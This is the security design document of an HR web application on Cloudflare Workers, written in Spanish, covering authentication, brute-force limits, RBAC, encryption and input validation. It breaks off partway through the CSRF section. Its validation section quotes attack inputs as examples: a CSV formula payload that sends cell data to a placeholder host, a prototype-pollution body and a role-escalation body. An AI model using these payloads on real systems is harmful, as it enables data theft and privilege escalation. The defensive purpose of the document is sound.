


# Seguridad

Este documento describe los controles de seguridad implementados en EcoTech
Solutions y, con el mismo detalle, los que **no** están implementados. Todo lo
que se afirma aquí es verificable en el código: cada apartado cita los archivos
y las constantes concretas.

El sistema corre sobre Cloudflare Workers con Workers KV como único almacén. No
hay base de datos relacional, de modo que la superficie clásica de inyección SQL
no existe; a cambio aparecen problemas propios del modelo clave-valor
(consistencia eventual, escritura "último en escribir gana") que sí afectan a
algunos controles y se documentan en su lugar.

## Tabla de contenidos

- [1. Modelo de amenazas](#1-modelo-de-amenazas)
- [2. Autenticación](#2-autenticación)
- [3. Fuerza bruta: dos capas](#3-fuerza-bruta-dos-capas)
- [4. Enumeración de usuarios](#4-enumeración-de-usuarios)
- [5. Autorización](#5-autorización)
- [6. Cifrado de datos personales](#6-cifrado-de-datos-personales)
- [7. Validación de entrada](#7-validación-de-entrada)
- [8. Defensa anti-CSRF](#8-defensa-anti-csrf)
- [9. Cabeceras de seguridad](#9-cabeceras-de-seguridad)
- [10. XSS en el cliente](#10-xss-en-el-cliente)
- [11. Auditoría](#11-auditoría)
- [12. Gestión de secretos](#12-gestión-de-secretos)
- [13. Limitaciones conocidas](#13-limitaciones-conocidas)

---

## 1. Modelo de amenazas

### Qué se protege

| Activo | Dónde vive | Control principal |
|---|---|---|
| Datos personales: documento, teléfono, dirección, email personal | `EstadoPersona.datosSensibles`, sobre AES-GCM (`src/dominio/personas/Persona.ts`) | Cifrado en reposo + permiso `empleado:leer_sensible` |
| Remuneraciones: `salarioMensual`, `tarifaHora`, `topeMensual` | `EstadoEmpleado` en KV, **en claro** (`src/dominio/personas/Empleado.ts`) | Enmascarado en la proyección (`Empleado.aDTO`) y permiso `reporte:nomina` |
| Credenciales de acceso | `EstadoUsuario.hashContrasena` / `salContrasena` (`src/dominio/seguridad/Usuario.ts`) | PBKDF2-SHA256 con sal por usuario, sin getter público |
| Sesiones activas | Clave `sesion:<sha256(token)>` en KV (`src/dominio/seguridad/Sesion.ts`) | Se persiste el hash del token, TTL nativo |
| Trazabilidad: quién hizo qué | Colección `auditoria` (`src/dominio/auditoria/RegistroAuditoria.ts`) | Entidad inmutable; la escritura nunca tumba la operación |
| Integridad del parte de horas | `RegistroTiempo` | Comprobaciones de propiedad + permiso `tiempo:aprobar` |

### Frente a quién

1. **Empleado autenticado que curiosea o escala privilegios.** Es el atacante
   más probable: ya tiene sesión válida. Intenta leer las horas de un compañero
   editando `?empleadoId=`, imputarse horas ajenas, o mandar
   `{"rol":"ADMIN_RRHH"}` al actualizar su propio perfil. Se contiene con la
   matriz RBAC (§5), las comprobaciones de propiedad forzadas en servidor (§5) y
   la lista blanca del `Esquema` (§7).
2. **Atacante externo sin credenciales.** Prueba contraseñas contra el login y
   enumera direcciones de correo del personal. Se contiene con las dos capas
   antifuerza bruta (§3) y la respuesta uniforme con señuelo (§4).
3. **Atacante que consigue leer el almacén** (volcado de KV, credencial de
   plataforma filtrada). No obtiene datos personales en claro (§6) ni puede
   suplantar sesiones, porque solo hay hashes SHA-256 de los tokens (§2). Sí
   obtiene remuneraciones, nombres y correos corporativos: ver §13.
4. **Sitio de terceros que intenta usar la sesión del navegador** (CSRF). Dos
   barreras independientes (§8).
5. **Contenido malicioso almacenado por un usuario legítimo** (XSS almacenado,
   inyección de fórmulas en informes exportados). Se contiene en el punto de
   salida: `textContent` en el cliente (§10) y neutralización de fórmulas en el
   exportador CSV (§7).

Queda **fuera** del modelo de amenazas: un administrador de la cuenta de
Cloudflare, que tiene acceso a los secrets y al espacio de nombres KV, y el
compromiso del propio runtime de Workers.

---

## 2. Autenticación

### Contraseñas: PBKDF2-SHA256, 210.000 iteraciones

`src/infraestructura/ServicioCripto.ts` define:

```ts
private static readonly ITERACIONES_PBKDF2 = 210_000;
private static readonly LONGITUD_SAL = 16;
```

`hashearContrasena` genera 16 bytes de sal con `crypto.getRandomValues`, deriva
256 bits con PBKDF2-HMAC-SHA256 y devuelve ambos en hexadecimal; se persisten en
`EstadoUsuario.hashContrasena` y `EstadoUsuario.salContrasena`. Las 210.000
iteraciones son la referencia de OWASP para PBKDF2-HMAC-SHA256 y están elegidas
para que probar una contraseña cueste tiempo de CPU medible: un atacante con el
volcado de la tabla de usuarios paga ese coste por cada candidata **y por cada
usuario**, porque la sal es distinta en cada cuenta y no permite una tabla
precalculada compartida.

Que la sal sea por usuario tiene un segundo efecto: dos empleados con la misma
contraseña producen hashes distintos, de modo que el volcado no revela quién
comparte clave con quién.

`verificarContrasena` compara con `ServicioCripto.comparacionConstante`, que
recorre siempre la longitud mayor de las dos cadenas y acumula diferencias con
XOR, sin cortocircuito. Si la sal almacenada no es hexadecimal válido devuelve
`false` en lugar de lanzar.

PBKDF2 es también la razón del tope de longitud en `ReglaContrasena` y en el
esquema de login (`ReglaTexto(1, 128)`): sin él, una contraseña de varios
megabytes convertiría cada intento en un ataque de denegación de servicio contra
la cuota de CPU del Worker.

### Sesiones opacas en KV, no JWT

El token es una cadena aleatoria opaca (`tokenAleatorio(32)`: 32 bytes,
64 caracteres hexadecimales) y el estado de la sesión vive en KV.

La razón es la **revocación inmediata**. Un JWT es autocontenido: el servidor lo
valida con una firma y no consulta nada, así que no hay forma de invalidarlo
antes de su vencimiento sin construir precisamente una lista de revocación en
servidor, es decir, sin reinventar las sesiones. En un sistema de RRHH eso es
inaceptable: cuando se da de baja a alguien o se le cambia el rol, el acceso debe
cortarse en el acto, no dentro de ocho horas.

Con la sesión en KV hay tres puntos de corte, todos en `resolverSolicitante`
(`src/aplicacion/ServicioAutenticacion.ts`):

```ts
if (sesionExpirada(sesion)) { await this.ctx.almacen.borrar(claveSesion(hashToken)); return null; }
if (sesion.huellaCliente && huella && sesion.huellaCliente !== huella) { ... return null; }
const usuario = await this.ctx.usuarios.obtener(sesion.usuarioId);
if (!usuario || !usuario.activo) { ... return null; }
```

Además el rol se revalida en cada petición contra el usuario real
(`sesion: { ...sesion, rol: usuario.rol, empleadoId: usuario.empleadoId }`), de
modo que un cambio de rol no queda latente en la sesión en curso.

### La cookie `__Host-`

`ServicioAutenticacion.cookieDeSesion` emite:

```
__Host-ecotech_sesion=<token>; Path=/; HttpOnly; Secure; SameSite=Strict; Max-Age=28800
```

| Atributo | Qué aporta |
|---|---|
| Prefijo `__Host-` | El navegador solo acepta la cookie si llega por HTTPS, lleva `Path=/` y **no** lleva `Domain`. El efecto útil es que un subdominio comprometido (`viejo.ecotech.com`) no puede sobrescribir la cookie del dominio principal: es la defensa contra fijación de sesión por *cookie tossing*. |
| `HttpOnly` | `document.cookie` no la ve. Si a pesar de la CSP se ejecutara un XSS, no habría token que robar; `src/cliente/ClienteApi.ts` lo declara explícitamente: el cliente nunca toca el token. |
| `Secure` | No viaja por HTTP en claro. Redundante con `__Host-`, que ya lo exige, pero se declara igual porque el prefijo depende del soporte del navegador. |
| `SameSite=Strict` | El navegador no adjunta la cookie en peticiones originadas por otro sitio, ni siquiera en navegaciones de nivel superior. Primera línea contra CSRF. |
| `Max-Age=28800` | Ocho horas (`DURACION_SESION_SEGUNDOS = 8 * 60 * 60`), alineado con el TTL del valor en KV. |

Al leerla, `leerTokenDeCookie` exige que el valor case con `/^[0-9a-f]{64}$/`;
cualquier otra cosa se descarta antes de tocar el almacén.

### Por qué se guarda el hash del token y no el token

La sesión se persiste bajo la clave `sesion:<sha256(token)>` (`claveSesion` en
`src/dominio/seguridad/Sesion.ts`). El token en claro solo existe en la respuesta
del login y en el navegador del usuario:

```ts
const token = tokenAleatorio(32);
const hashToken = await ServicioCripto.sha256(token);
await this.ctx.almacen.escribir(claveSesion(hashToken), sesion, DURACION_SESION_SEGUNDOS);
```

Quien obtenga un volcado del almacén ve hashes SHA-256, no tokens utilizables:
para suplantar a alguien tendría que invertir SHA-256 sobre una preimagen de 256
bits de entropía. Aquí SHA-256 sin sal ni estiramiento es suficiente, a
diferencia de las contraseñas, precisamente porque el token es aleatorio de 32
bytes y no tiene la estructura predecible ni el bajo espacio de búsqueda que
hace atacable a una contraseña humana.

Usar el hash como parte de la clave tiene además un efecto de rendimiento:
validar una sesión es una sola lectura directa por clave, sin recorrer ninguna
colección.

### TTL nativo de KV

`AlmacenKV.escribir` traduce el TTL a `expirationTtl` de KV
(`src/infraestructura/AlmacenKV.ts`, con el mínimo de 60 s que impone la
plataforma). La sesión se borra sola al vencer: no hay tarea de limpieza, que en
Workers habría que montar como Cron Trigger aparte. La expiración se comprueba
igualmente en código (`sesionExpirada`) porque el borrado por TTL no es
instantáneo en todos los centros de datos.



---

## 3. Fuerza bruta: dos capas

Las dos capas son deliberadamente redundantes y atacan problemas distintos.

| | Capa 1: por IP | Capa 2: por cuenta |
|---|---|---|
| Dónde | `LimitadorTasa` (`src/infraestructura/LimitadorTasa.ts`) | `Usuario` (`src/dominio/seguridad/Usuario.ts`) |
| Clave | `limite:login:ip:<CF-Connecting-IP>` | Campos `intentosFallidos` / `bloqueadoHasta` de la cuenta |
| Umbral | `MAX_INTENTOS_IP = 10` en `VENTANA_LOGIN_SEGUNDOS = 300` | `MAX_INTENTOS = 5` |
| Respuesta | 429 con `Retry-After` hasta el fin de la ventana | 401 genérico; la sesión no se abre aunque la contraseña sea correcta |
| Duración | Ventana fija de 5 minutos | `MINUTOS_BLOQUEO = 15` |
| Exactitud | Eventualmente consistente (KV) | Exacta: vive junto al dato del usuario |
| Qué atrapa | Escaneo masivo y barato desde pocas IPs | Ataque dirigido a una cuenta concreta, aunque venga distribuido |

La capa 1 se consume **antes** de buscar al usuario, de modo que un intento
excedido no cuesta ni la lectura de la colección de usuarios. Tras un login
correcto se limpia el contador (`this.ctx.limitador.reiniciar(...)`), para que un
usuario legítimo que se equivocó varias veces no arrastre la penalización.

La capa 2 se aplica en `Usuario.registrarIntentoFallido`:

```ts
this._intentosFallidos += 1;
if (this._intentosFallidos >= MAX_INTENTOS) {
  this._bloqueadoHasta = new Date(ahora.getTime() + MINUTOS_BLOQUEO * 60_000).toISOString();
  this._intentosFallidos = 0;
}
```

`registrarAccesoExitoso`, `cambiarCredenciales` y `reactivar` limpian contador y
bloqueo. Mientras el bloqueo está vigente el login sale por la rama de
`estaBloqueado()` y **no** suma un intento más, para que insistir durante la
ventana no la prolongue indefinidamente.

### Por qué el bloqueo es temporal y no permanente

Un bloqueo permanente convierte el control antifuerza bruta en un arma de
denegación de servicio contra la propia empresa: bastaría con fallar cinco veces
la contraseña de `admin@ecotech.com` para dejar a RRHH fuera del sistema hasta
que alguien interviniera manualmente. Como los emails corporativos son
deducibles, el ataque es trivial y no requiere ninguna credencial.

Quince minutos arruinan el rendimiento de un ataque por diccionario (20 intentos
por hora y cuenta) sin darle a un tercero la capacidad de expulsar a un empleado.
La cuenta se recupera sola: no hay procedimiento manual que ejecutar.

Los tres desenlaces quedan asentados en la traza: `LOGIN_BLOQUEADO_POR_TASA`,
`LOGIN_CUENTA_BLOQUEADA` y `LOGIN_FALLIDO`. Quien necesita saber que una cuenta
está bloqueada es quien audita, y ese es el canal por el que se entera.

---

## 4. Enumeración de usuarios

Un login que responde "ese email no existe" en 2 ms y "contraseña incorrecta" en
180 ms no necesita mensajes distintos para filtrar información: el reloj ya la
filtra. Con la plantilla de una empresa y un patrón de correo corporativo
previsible, un atacante puede confirmar en minutos quién trabaja allí y luego
concentrar el ataque de contraseñas solo en las cuentas reales.

`ServicioAutenticacion.iniciarSesion` cierra ese canal ejecutando **siempre** la
verificación completa, exista el usuario o no:

```ts
const credenciales = usuario?.credencialesParaVerificar() ?? {
  hash: '0'.repeat(64),
  sal: '0'.repeat(32),
};
const contrasenaCorrecta = await this.ctx.cripto.verificarContrasena(
  contrasena, credenciales.hash, credenciales.sal,
);
```

El señuelo tiene la forma exacta de una credencial real —64 caracteres de hash,
32 de sal— para que `verificarContrasena` recorra el mismo camino: decodificar la
sal desde hexadecimal, ejecutar las 210.000 iteraciones de PBKDF2 y comparar en
tiempo constante. El resultado es siempre `false`, pero el tiempo consumido es
indistinguible del de una contraseña equivocada sobre una cuenta real. Sin el
señuelo, la diferencia entre microsegundos y 210.000 ciclos de derivación sería
medible desde fuera con muy pocas muestras.

La respuesta también es uniforme. Cuatro situaciones distintas colapsan en el
mismo 401 con el mismo texto `'Email o contrasena incorrectos.'`:

| Situación | Rama del código |
|---|---|
| El email no existe | `!usuario` |
| La contraseña es incorrecta | `!contrasenaCorrecta` |
| La cuenta está desactivada | `!usuario.activo` |
| La cuenta está bloqueada por intentos fallidos | `usuario.estaBloqueado()` |

El orden importa: la comprobación de bloqueo está **después** del señuelo, no
antes. Si se comprobara primero, esa rama respondería sin pagar el coste de
PBKDF2, y la respuesta rápida sería otro oráculo. Y responde con el error
genérico en lugar de un 429 con mensaje propio, porque un mensaje propio
convertiría el bloqueo en un oráculo de enumeración: bastaría con fallar cinco
veces contra un email para saber si pertenece a alguien de la empresa. El
comentario del código lo dice con esas palabras.

El esquema de login refuerza lo mismo desde otro ángulo. `ESQUEMA_LOGIN` valida
la contraseña con `ReglaTexto(1, 128)` y **no** con `ReglaContrasena`:

```ts
// En el login NO se aplica `ReglaContrasena`: rechazar por politica una
// contrasena mal escrita revelaria la politica exacta a un atacante y, peor,
// distinguiria "formato invalido" de "credenciales incorrectas".
```

Un 400 con "debe tener al menos 12 caracteres" diría al atacante que su candidata
ni siquiera llegó a compararse.

**Canal residual, medible en principio:** cuando el email existe y la contraseña
es incorrecta se ejecutan `registrarIntentoFallido` y `usuarios.guardar`, es
decir una escritura en KV que la rama del email inexistente no paga. La
diferencia es de latencia de almacén, mucho más ruidosa que la de PBKDF2, pero
existe y no está compensada.

---

## 5. Autorización

### Matriz RBAC

`src/dominio/seguridad/PoliticaAutorizacion.ts` contiene una matriz congelada con
`Object.freeze` y explícitamente *deny-by-default*: `puede` devuelve `true` solo
si el permiso figura en la lista del rol, y `MATRIZ[rol] ?? []` hace que un rol
desconocido no tenga ningún permiso, en vez de fallar abierto.

Los 23 permisos son la constante `PERMISOS` de `src/compartido/tipos.ts`; los
cuatro roles son `ROLES`. La matriz completa, tal como está en el código:

| Permiso | ADMIN_RRHH | GERENTE | EMPLEADO | AUDITOR |
|---|:---:|:---:|:---:|:---:|
| `empleado:leer` | X | X | X | X |
| `empleado:leer_sensible` | X | | | |
| `empleado:crear` | X | | | |
| `empleado:editar` | X | | | |
| `empleado:eliminar` | X | | | |
| `departamento:leer` | X | X | X | X |
| `departamento:crear` | X | | | |
| `departamento:editar` | X | | | |
| `departamento:eliminar` | X | | | |
| `proyecto:leer` | X | X | X | X |
| `proyecto:crear` | X | X | | |
| `proyecto:editar` | X | X | | |
| `proyecto:eliminar` | X | | | |
| `asignacion:leer` | X | X | X | X |
| `asignacion:gestionar` | X | X | | |
| `tiempo:leer_propio` | X | X | X | |
| `tiempo:leer_todos` | X | X | | X |
| `tiempo:registrar` | | X | X | |
| `tiempo:aprobar` | | X | | |
| `reporte:generar` | X | X | | X |
| `reporte:nomina` | X | | | |
| `auditoria:leer` | X | | | X |
| `usuario:gestionar` | X | | | |

Tres asimetrías merecen explicación, porque no son descuidos:

- **`ADMIN_RRHH` no tiene `tiempo:registrar` ni `tiempo:aprobar`.** RRHH
  administra personas y estructura; validar las horas de un proyecto es
  competencia de quien lo dirige. Sí tiene `tiempo:leer_todos`, que es lo que
  necesita para liquidar.
- **`GERENTE` no tiene `empleado:leer_sensible` ni `reporte:nomina`.** Opera
  sobre proyectos y personas, pero no necesita el domicilio ni el sueldo de
  nadie. El efecto es visible en `Empleado.aDTO`: cuando `sensibles` llega `null`
  se devuelven `'********'` y además `salarioMensual`, `tarifaHora` y
  `topeMensual` se anulan.
- **`AUDITOR` tiene `tiempo:leer_todos` pero no `tiempo:leer_propio`.** Es una
  cuenta sin empleado vinculado (`empleadoId: null` en `Semilla.ts`): "lo propio"
  no significa nada para ella, y `tiempo:leer_todos` ya cubre su alcance de solo
  lectura.

El punto de aplicación es `Contexto.exigirPermiso`, que delega en
`PoliticaAutorizacion.exigir` y lanza `ErrorAutorizacion` (HTTP 403). Los
servicios lo invocan como primera línea de cada método público, por ejemplo
`this.ctx.exigirPermiso('empleado:crear')` en `ServicioEmpleados.crear`.

El DTO de sesión incluye `permisos: PoliticaAutorizacion.permisosDe(usuario.rol)`
(`ServicioAutenticacion.aDTO`). Ese listado sirve **solo** para que la SPA decida
qué menús pintar; no es un control de seguridad, y el servidor vuelve a
comprobarlo todo en cada petición.

### Comprobaciones de propiedad, además del rol

El rol no alcanza cuando el mismo endpoint sirve a alcances distintos.
`tiempo:leer_propio` y `tiempo:leer_todos` habilitan `GET /api/tiempo`; la
diferencia no es *si* puedes leer, sino *qué*. Eso depende de los datos, no del
rol, y por eso vive en el servicio
(`src/aplicacion/ServicioRegistrosTiempo.ts`):

```ts
private exigirLectura(): { solicitante: Solicitante; veTodo: boolean } {
  const solicitante = this.ctx.exigirSolicitante();
  const veTodo = this.ctx.puede('tiempo:leer_todos');
  if (!veTodo) this.ctx.exigirPermiso('tiempo:leer_propio');
  return { solicitante, veTodo };
}
```

Y en `listar`, el filtro **lo pone el servidor pisando lo que llegó**:

```ts
let empleadoId = criterios.empleadoId;
if (!veTodo) {
  if (solicitante.empleadoId === null) return [];
  empleadoId = solicitante.empleadoId;
}
```

Lo mismo en escritura: `crear` ignora el `empleadoId` del cuerpo salvo que quien
llama tenga `tiempo:leer_todos`, y `obtener`, `actualizar`, `enviar` y `eliminar`
pasan por `exigirPropiedad`, que compara `registro.empleadoId` con el
`empleadoId` de la sesión y lanza 403 si no coinciden.

**Por qué se fuerza en el servidor y no se confía en el parámetro.** El
`?empleadoId=` de la URL es texto que escribe el cliente; el navegador es del
usuario y las herramientas de desarrollo son parte del producto. Si el servidor
respetara ese filtro, "ver solo mis horas" sería una convención de la interfaz y
no un control: cambiar un identificador en la barra de direcciones bastaría para
leer el parte de un compañero, que es una vulnerabilidad de referencia directa a
objeto de manual. El único identificador confiable es el que sale de la sesión
resuelta en servidor a partir de la cookie, porque el usuario no lo controla.

El mismo criterio, con una excepción deliberada, en `ServicioEmpleados`:

```ts
const esSuPropiaFicha = this.ctx.solicitante?.empleadoId === empleado.id;
if (!esSuPropiaFicha && !this.ctx.puede('empleado:leer_sensible')) {
  return empleado.aDTO(null);
}
```

Un empleado ve siempre su propia ficha completa. La alternativa sería darle
`empleado:leer_sensible`, que también le abriría las fichas ajenas: la
comprobación de propiedad es justamente lo que permite mantener el permiso
cerrado.



---

## 6. Cifrado de datos personales

### AES-256-GCM

`ServicioCripto.cifrar` usa AES-GCM con una clave de 256 bits y un IV de 12 bytes
(`LONGITUD_IV = 12`) generado con `crypto.getRandomValues` **en cada operación**.
GCM es cifrado autenticado: el texto cifrado lleva un tag que se verifica al
descifrar, de modo que alterar un byte del almacén no produce datos corruptos
silenciosos sino un fallo explícito:

```ts
} catch {
  // GCM falla si el texto fue alterado: es deteccion de manipulacion.
  throw new ErrorInterno('No se pudo descifrar un dato protegido.');
}
```

Los cuatro campos protegidos viajan en un único sobre por empleado
(`documento`, `telefono`, `direccion`, `emailPersonal`), serializados a JSON con
`cifrarObjeto`: una sola operación de cifrado cubre la ficha entera.

### Derivación HKDF por propósito

La clave maestra no se usa nunca directamente. `ServicioCripto.derivar` la
importa como material HKDF y deriva una subclave por propósito:

| Propósito (`info` de HKDF) | Algoritmo derivado | Usos permitidos |
|---|---|---|
| `cifrado-datos-personales` | AES-GCM 256 | `encrypt`, `decrypt` |
| `indice-ciego` | HMAC-SHA256 | `sign` |

Con `salt` fijo `ecotech-solutions-v1` y `hash: 'SHA-256'`. Las claves derivadas
se crean con `extractable = false`, de modo que no pueden volver a exportarse
desde WebCrypto, y se memorizan por instancia (`this.claveAes ??= ...`) para no
repetir la derivación en cada llamada.

Separar por propósito importa porque reutilizar la misma clave para cifrar y para
firmar el índice ciego debilitaría ambos usos: el HMAC del documento se calcula y
se **almacena en claro** (es un índice), con lo que un atacante obtendría pares
mensaje-etiqueta bajo la misma clave que protege el AES.

### El sobre versionado

```ts
export interface SobreCifrado {
  v: 1;          // version del esquema
  iv: string;    // 12 bytes en base64
  ct: string;    // texto cifrado + tag de autenticacion, en base64
}
```

El campo `v` existe para poder cambiar de algoritmo sin romper lo ya guardado: un
lector futuro podría ramificar por versión y descifrar los sobres antiguos con el
esquema viejo. **Hoy no hay ninguna rama que lo lea**: es una previsión de
formato, no una migración implementada (§13).

### Índice ciego HMAC

Guardar el documento en claro para poder detectar duplicados anularía el cifrado.
`indiceCiego` calcula en su lugar un HMAC-SHA256 determinista:

```ts
const firma = await crypto.subtle.sign('HMAC', clave, CODIFICADOR.encode(valor.trim().toLowerCase()));
```

La normalización —recorte y minúsculas— es intencional: `"Ana@Eco.com "` y
`"ana@eco.com"` deben colisionar, porque el objetivo es detectar a la misma
persona cargada dos veces con el dato escrito distinto, que es exactamente el
problema de duplicidad que motiva el sistema.

El resultado se persiste en `EstadoPersona.indiceDocumento` y
`EstadoPersona.indiceEmailPersonal`, y `ServicioEmpleados.exigirUnicidad` compara
esos hexadecimales contra los del resto de empleados, lanzando `ErrorConflicto`
(409) al primer choque. Es HMAC y no un SHA-256 simple porque un documento
nacional tiene un espacio de búsqueda pequeño: sin clave, cualquiera con el
volcado recuperaría los documentos por fuerza bruta en minutos.

### El compromiso: no se puede buscar por documento

Está asumido y documentado en `ServicioEmpleados.listar`: el filtro de texto
busca por nombre, apellido, legajo y email corporativo, y **nunca** por
documento, teléfono, dirección o email personal.

| Operación | ¿Se puede? | Por qué |
|---|---|---|
| Igualdad exacta sobre documento o email personal | Sí, vía índice ciego | El HMAC es determinista |
| Búsqueda parcial, "empieza por", ordenación | No | El sobre AES-GCM es opaco; el HMAC no conserva prefijos ni orden |
| Listar mostrando el documento de todos | No, por diseño | El listado siempre proyecta con `aDTO(null)` |

Descifrar N sobres en cada búsqueda no solo sería caro (N operaciones de
WebCrypto por petición): el tiempo de respuesta variaría según cuántos sobres se
abren, que es un canal lateral por temporización. El dato en claro se entrega
únicamente en `obtener`, que abre un solo sobre.

---

## 7. Validación de entrada

### La jerarquía `Regla`

`src/dominio/validacion/Regla.ts` define una clase abstracta con dos métodos:

```ts
export abstract class Regla<E = unknown, S = E> {
  abstract aplicar(valor: E, campo: string): S;
  abstract describir(): string;
}
```

`aplicar` devuelve el valor **normalizado** o lanza `FalloRegla`. Se usa excepción
en lugar de un booleano para poder devolver el mensaje concreto del fallo. Las
implementaciones concretas:

| Regla | Qué acepta | Qué normaliza |
|---|---|---|
| `ReglaTexto(min, max, patron?)` | Cadena entre `min` y `max` tras limpiar | NFC, elimina caracteres de control, recorta |
| `ReglaEmail` | `ReglaTexto(5, 254)` + patrón de correo | Minúsculas |
| `ReglaTelefono` | 7 a 20 caracteres: dígitos, espacios, `+`, `-`, `()` | Lo de `ReglaTexto` |
| `ReglaDocumento` | `[A-Za-z0-9.-]{6,20}` | Mayúsculas |
| `ReglaContrasena` | 12 a 128 caracteres, 3 de 4 familias, fuera de la lista de prohibidas | Nada: se conserva literal |
| `ReglaNumero(min, max, entero?)` | Número finito dentro del rango | Redondeo a 2 decimales si no es entero |
| `ReglaFecha(permitirFuturo?, minimo?)` | `AAAA-MM-DD` real del calendario | Recorte |
| `ReglaBooleano` | `true`/`false` o las cadenas `'true'`/`'false'` | A booleano |
| `ReglaEnumerado(permitidos)` | Solo valores de la lista blanca | Nada |
| `ReglaIdentificador` | UUID con el patrón del sistema | Minúsculas |

El polimorfismo es el punto: el `Esquema` recorre las reglas sin saber cuál está
aplicando, así que añadir una `ReglaCUIT` no obliga a tocar ni el esquema ni el
enrutador.

### El `Esquema` como lista blanca estricta

`src/dominio/validacion/Esquema.ts` construye la salida sobre
`Object.create(null)` y aplica tres reglas antes de devolver nada:

1. Toda clave presente en la entrada que no esté declarada produce un fallo
   `Campo no reconocido.`
2. Las claves `__proto__`, `constructor` y `prototype` (`CLAVES_PROHIBIDAS`) se
   rechazan explícitamente.
3. Todos los fallos se acumulan y se lanzan juntos en un `ErrorValidacion` (400)
   con el detalle campo a campo, para que el formulario del cliente marque todos
   los errores de una vez.

La salida es **un objeto nuevo con exclusivamente los campos declarados**; nada
del cuerpo original se propaga. `parcial()` genera la variante para PATCH: mismos
requisitos de formato, todos los campos opcionales.

### Ataques concretos que cierra

| Ataque | Control | Dónde |
|---|---|---|
| **Mass assignment / escalada de privilegios** | Lista blanca: `{"rol":"ADMIN_RRHH"}` en un perfil produce 400 `Campo no reconocido`, no una asignación silenciosa | `Esquema.validar`, paso 1 |
| **Contaminación de prototipo** | `CLAVES_PROHIBIDAS` más `Object.create(null)`: `{"__proto__":{"esAdmin":true}}` se rechaza y, aunque pasara, el objeto de salida no tiene prototipo que contaminar | `Esquema.CLAVES_PROHIBIDAS` |
| **Inyección de cabeceras y falsificación de líneas en la traza** | `ReglaTexto` aplica `CARACTERES_CONTROL = /[\u0000-\u001F\u007F]/g`, es decir elimina todos los controles C0 y DEL de cualquier entrada de texto: sin CR ni LF no se puede partir una cabecera HTTP ni fabricar un asiento falso en la traza | `CARACTERES_CONTROL` en `Regla.ts`; refuerzo en `http.ts`, donde `archivo()` reescribe el nombre con `replace(/[^A-Za-z0-9._-]/g, '_')` antes de meterlo en `Content-Disposition` |
| **Inyección de fórmulas en CSV** | Toda celda de origen textual que empiece por `=`, `+`, `-`, `@`, TAB o CR recibe un apóstrofo delante | `neutralizarFormula` en `src/dominio/reportes/exportadores/ExportadorCSV.ts` |
| **DoS por cuerpo gigante o por PBKDF2** | `leerJson` exige `Content-Type: application/json` y corta a 64 KiB; `ReglaContrasena` y el esquema de login topan en 128 caracteres | `src/worker/http.ts`, `Regla.ts` |

Sobre la inyección de fórmulas conviene ser explícito, porque suele
subestimarse: un empleado que escriba `=HYPERLINK("http://malo/"&A1,"ok")` en la
descripción de una tarea consigue que esa fórmula se evalúe en la máquina de
quien abra el informe exportado. El apóstrofo inicial fuerza a la hoja de cálculo
a tratar la celda como texto literal. Solo se neutralizan las celdas cuyo valor
de origen es una cadena: hacerlo también con los números rompería todo importe
negativo, que ya empieza por `-`.

Los tres rechazos de `leerJson` —tipo de contenido, tamaño y JSON mal formado—
lanzan `ErrorValidacion`, es decir 400. Un cuerpo inválido es culpa del cliente y
no debe aparecer como error del servidor ni ensuciar el registro de fallos.

**Lo que no se hace, a propósito:** no se escapa HTML en la entrada. El escape
corresponde al punto de salida; escapar al entrar corrompe el dato almacenado y
produce el clásico `Jos&eacute;` en un informe PDF. La defensa contra XSS está en
§10.

---

## 8. Defensa anti-CSRF

`src/worker/index.ts` aplica dos barreras a todo método de
`METODOS_MUTANTES = new Set(['POST', 'PUT', 'PATCH', 'DELETE'])`:

```ts
if (!verificarOrigen(peticion)) {
  throw new ErrorAutorizacion('Peticion rechazada: origen no permitido.');
}
if (resuelto) {
  autenticacion.verificarCsrf(resuelto.sesion, peticion.headers.get(CABECERA_CSRF));
